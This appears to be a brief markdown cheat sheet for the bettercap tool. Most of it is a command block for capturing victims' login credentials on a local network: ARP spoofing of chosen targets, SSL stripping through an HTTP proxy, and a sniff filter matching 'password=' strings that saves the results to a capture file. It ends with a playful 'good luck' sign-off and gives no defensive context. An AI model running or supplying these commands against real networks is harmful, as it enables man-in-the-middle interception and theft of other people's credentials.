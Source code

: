 # bettercap
- Start:
```bash
bettercap -iface _your_interface_
```
- - Sniffing of the victim login credentials a Layer 2 Network

```bash
set http.proxy.sslstrip true
set net.sniff.verbose false
set arp.spoof.targets 0.0.0.0
set net.sniff.filter not arp (default=not arp)
set net.sniff.local true
set net.sniff.regexp .*password=.+
set net.sniff.verbose true
set net.sniff.output passwords.pcap
arp.spoof on
http.proxy on
net.sniff on
```

# Dood luck ;)
